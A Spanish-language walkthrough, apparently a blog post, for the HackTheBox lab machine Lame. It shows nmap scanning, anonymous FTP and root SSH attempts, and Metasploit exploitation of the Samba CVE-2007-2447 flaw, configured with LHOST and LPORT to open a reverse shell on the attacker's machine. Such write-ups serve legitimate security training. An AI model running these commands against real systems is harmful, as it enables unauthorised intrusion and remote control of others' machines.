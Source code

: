 ```yaml
---
layout: post
title:  "Maquina Lame Hackthebox (metaesploit)"
summary: "Guia para resolver la maquina Lame de hackthebox"
author: drone
date: '2023-09-25'
category: ['hacking','metaesploit', 'linux']
tags: hacking
thumbnail:
keywords: hackthebox lame hackthebox guide
usemathjax: false
permalink: /blog/adding-categories-tags-in-posts/
---
```


## Maquina Lame

Este es un walkthrough para la resolución de la **Maquina Lame**. En esta guía veremos la explotación de la vulnerabilidad **CVE-2007-2447** también conocida como **username map script** que afecta el servicio **samba**, utilizado para compartir recursos en una red. Esta vulnerabilidad nos permitirá ejecutar comandos de manera remota en la maquina objetivo.

Antes de pasar directamente a la vulnerabilidad iremos haciendo algunas pruebas con los demás servicios para ver si también es que podemos atacar por algún otro puerto.

1.-Ping al objetivo, Por el **ttl** podemos darnos cuenta de que es una máquina **Linux**.

  ![Ping](/assets/maquinas/Lame/01Lame.png)

  ```jsx
ping 10.10.10.3
```

2.-Escaneamos e identificamos todos los puertos abiertos del objetivo.

  ![Ping](/assets/maquinas/Lame/02Lame.png)

  ```jsx
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3
```

3.-Identificamos los servicios que están corriendo en los puertos abiertos.

  ![Ping](/assets/maquinas/Lame/03Lame.png)

  ```jsx
sudo nmap -sCV -p21,22,139,445,3632 -Pn 10.10.10.3
```

4.- En los resultados del escaneo podemos ver que tenemos el puerto 21 abierto y que el **inicio de sesión anónimo** está habilitado lo que da pie a que se pueda acceder al equipo objetivo a través de esta mala configuración en el servicio. Cuando estamos en un caso similar comprobaremos primero que realmente tengamos acceso y después tratar de visualizar, descargar o cargar archivos mediante **ftp**.

![Ping](/assets/maquinas/Lame/04Lame.png)

5.- Intentamos acceder por algún usuario por default que utiliza este servicio, utilizare el usuario y contraseña **ftp:fpt**. Como se puede ver tenemos cierto acceso y enseguida se tratan de listar archivos.

  ![Ping](/assets/maquinas/Lame/05Lame.png)

  ```jsx
ftp 10.10.10.3
```

6.- Tratamos de subir un archivo para comprobar si tenemos permisos de escritura. Al parecer no tenemos permisos.

  ![Ping](/assets/maquinas/Lame/06Lame.png)

  ```jsx
put file
```

7.- Se trato de descargar los archivos a través de la conexión ftp para revisar si podíamos descargar algún archivo oculto. 

  ![Ping](/assets/maquinas/Lame/07Lame.png)

  ```jsx
wget -m --no-passive ftp://ftp:ftp@10.10.10.3
```

8.- Como vimos que no pudimos hacer nada mediante la **autenticación anónima (Anonymous login)**. Entonces regresaremos al escaneo y buscaremos vulnerabilidades sobre el software y la versión que está utilizando el puerto 21 para el servicio **fpt**.  

  ![Ping](/assets/maquinas/Lame/08Lame.png)

9.- Ahora iniciaremos una consola de **metasploit** para buscar vulnerabilidades referentes a vsftpd **2.3.4** y explotar la máquina. Vemos que si existe un **exploit**.

  ![Ping](/assets/maquinas/Lame/09Lame.png)

  ```jsx
msf6 > search vsftpd 2.3.4
```

10.- Ya vimos que tenemos un **exploit** para el servicio de **ftp** que se está usando. Procederemos a configurarlo y posteriormente ejecutarlo.

  ![Ping](/assets/maquinas/Lame/10Lame.png)

11.- Explotamos, aquí este **exploit** no servirá dado que requiere que posteriormente se tengan unas credenciales validas.

  ![Ping](/assets/maquinas/Lame/11Lame.png)

  ```jsx
exploit
```

12.- Lo que tenemos que hacer ahora es regresar a nuestro escaneo de puertos y servicios para buscar otros vectores de ataque en los demas puertos. Seguiremos con el puerto 22 donde está corriendo el servicio de **SSH (Secure Shell)** conexión de acceso remoto cifradas.

13.- Con **NMAP** Procedemos a buscar vulnerabilidades en el puerto 22. Los resultados nos indican que no se encontraron vulnerabilidades.

  ![Ping](/assets/maquinas/Lame/13Lame.png)

  ```jsx
nmap -p 22 --script "vuln" 10.10.10.3 -Pn
ó
nmap -p 22 --script "vuln and safe" 10.10.10.3 -Pn
```

14.- Buscaremos vulnerabilidades a través de **metaesploit**, según los resultados arrojados ningún **exploit** nos sireve ya que la primera opción es un módulo auxiliar para **enumerar** usuarios y el segundo es un **exploit** para Windows.

  ![Ping](/assets/maquinas/Lame/14Lame.png)

  ```jsx
msf6 > search OpenSSH 4
```

15.- Cuando tenemos un puerto 22 podemos intentar es iniciar sesión con el usuario **ROOT**, este usuario viene por defecto activado en **SSH** podemos intentar entrar si es que no deshabilitaron esta opción, por lo que se ve no está activado este usuario.

  ![Ping](/assets/maquinas/Lame/15Lame.png)

  ```jsx
ssh root@10.10.10.3
```

16.- Como tampoco pudimos explotar el puerto 22 regresaremos a nuestro escaneo e intentaremos con otro puerto, en este caso iremos con el puerto 139.

17.- Buscaremos vulnerabilidades en el puerto 139 con **NMAP**. Tampoco pudimos encontrar vulnerabilidades por este puerto.

  ![Ping](/assets/maquinas/Lame/16Lame.png)

  ```jsx
nmap -p 139 --script "vuln" 10.10.10.3 -Pn
ó
nmap -p 139 --script "vuln and safe" 10.10.10.3 -Pn
```

18.- Ahora pasaremos a buscar por el puerto 445, les adelanto que aquí es donde está la vulnerabilidad, entonces regresaremos a nuestro escaneo del principio. Veremos que también hay un servicio **samba** en el puerto 445 y que nos da también la versión que esta corriendo.

En esta ocasión **nmap** no nos ayuda con la búsqueda de la vulnerabilidad haremos uso de una web llamda **https://www.exploit-db.com/** y tomando la versión de **samba** que se está ejecutando, ahora si nos muestra la clave de la vulnerabilidad que presenta este servicio. En los anteriores puertos se puede hacer el mismo procedimiento, se omitió porque la web nos daba los mismos resultados que **nmap**.

![Ping](/assets/maquinas/Lame/18Lame.png)

19.- Procederemos a buscar el **exploit** en **metasploit**.

![Ping](/assets/maquinas/Lame/19Lame.png)

  ```jsx
msfconsole

search CVE-2007-2447
```
20.- Ahora procederemos a usar y configurar el **exploit**, indicamos los puertos e IPs involucradas.

![Ping](/assets/maquinas/Lame/20Lame.png)

  ```jsx
use 0

set RHOSTS 10.10.10.3

set RPORT 445

set LHOST 10.10.10.6

set LPORT 2666
```

21.-Explotamos!.

![Ping](/assets/maquinas/Lame/21Lame.png)

  ```jsx
run
```

22.-Se genera la conexión y podemos ver que entramos al equipo objetivo.

![Ping](/assets/maquinas/Lame/22Lame.png)

  ```jsx
whoami

pwd
```